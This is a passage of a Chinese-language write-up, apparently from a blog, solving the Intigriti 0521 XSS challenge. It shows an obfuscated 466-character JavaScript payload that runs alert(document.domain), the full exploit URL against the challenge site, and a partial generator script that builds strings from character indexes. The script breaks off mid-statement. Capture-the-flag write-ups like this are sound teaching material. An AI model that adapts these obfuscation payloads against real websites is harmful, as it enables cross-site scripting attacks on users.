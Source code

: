 找出來的冠軍是 `some`，可以拿來取代本來使用的 `[]['constructor']`。

最後呢，因為我們不需要執行任意程式碼了，所以用 `alert(document.domain)` 就好，至於 `eval(name)` 的話雖然乍看之下更短，但因為要拿到 v 不容易，所以其實會花費更多字元。

底下是產生出來的結果，長度 466 個字：

```
length: 466
======= Payload =======
[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`][`${e}`[5]+`${e}`[1]+`${e}`[25]+`${e}`[18]+`${e}`[6]+`${e}`[13]+`${e[0]}`[0]+`${e}`[5]+`${e}`[6]+`${e}`[1]+`${e}`[13]]`_${`${0/0}`[1]+`${e}`[21]+`e`+`${e}`[13]+`${e}`[6]+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[13]+`${e[0]}`[2]+`${e}`[1]+`${e}`[5]+`${e[0]}`[0]+`${e}`[23]+`e`+`${e}`[25]+`${e}`[6]+`.`+`${e[0]}`[2]+`${e}`[1]+`${e}`[23]+`${0/0}`[1]+`${e[0]}`[5]+`${e}`[25]+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[14]}`` `
======= URL =======
https://challenge-0521.intigriti.io/captcha.php?c=[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`][`${e}`[5]%2b`${e}`[1]%2b`${e}`[25]%2b`${e}`[18]%2b`${e}`[6]%2b`${e}`[13]%2b`${e[0]}`[0]%2b`${e}`[5]%2b`${e}`[6]%2b`${e}`[1]%2b`${e}`[13]]`_${`${0/0}`[1]%2b`${e}`[21]%2b`e`%2b`${e}`[13]%2b`${e}`[6]%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[13]%2b`${e[0]}`[2]%2b`${e}`[1]%2b`${e}`[5]%2b`${e[0]}`[0]%2b`${e}`[23]%2b`e`%2b`${e}`[25]%2b`${e}`[6]%2b`.`%2b`${e[0]}`[2]%2b`${e}`[1]%2b`${e}`[23]%2b`${0/0}`[1]%2b`${e[0]}`[5]%2b`${e}`[25]%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[14]}``+`
```

用來產生的程式碼是：

``` js
const mapping = {
  a: '`${0/0}`[1]',
  b: '`${e}`[2]',
  c: '`${e}`[5]',
  d: '`${e[0]}`[2]',
  e: '`e`',
  f: '`${e[0]}`[4]',
  g: '`${e}`[15]',
  i: '`${e[0]}`[5]',
  j: '`${e}`[3]',
  l: '`${e}`[21]',
  m: '`${e}`[23]',
  n: '`${e}`[25]',
  o: '`${e}`[1]',
  r: '`${e}`[13]',
  s: '`${e}`[18]',
  t: '`${e}`[6]',
  u: '`${e[0]}`[0]',
  ".": '`.`'
}

function getString(str) {
  return str.split('').map(c => mapping[c] || 'errorerror:' + c).join('+')
}

const some = getString('some')
mapping['('] = '`${[][' + some + ']}`[13]'
mapping[')'] = '`${[][' + some + ']}`[14]'

const cons = getString('constructor')
let strConstructor = '``['+ cons + ']'
strConstructor = '`${' + strConstructor + '}`'

const strToString = `${mapping.t}+${mapping.o}+${strConstructor}[9]+${mapping.t}+${mapping.r}+${mapping.i}+${mapping.n}+${mapping.g}`
mapping.v = '31[' + strToString + ']`36`'

const ans = 
  "[][" + 
```